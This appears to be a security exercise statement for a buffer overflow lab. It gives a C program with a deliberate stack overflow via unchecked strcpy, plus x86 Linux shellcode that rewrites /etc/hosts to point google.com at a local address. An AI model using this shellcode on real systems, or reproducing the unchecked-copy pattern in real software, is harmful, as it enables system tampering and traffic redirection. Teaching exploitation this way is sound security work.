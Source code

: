 # Task 1: Software buffer overflow attack

## Problem Statement

Given a vulnerable C program:

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```

And a shellcode in assembly that adds a new entry to the hosts file:

```asm
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permissions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, don't forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"
```
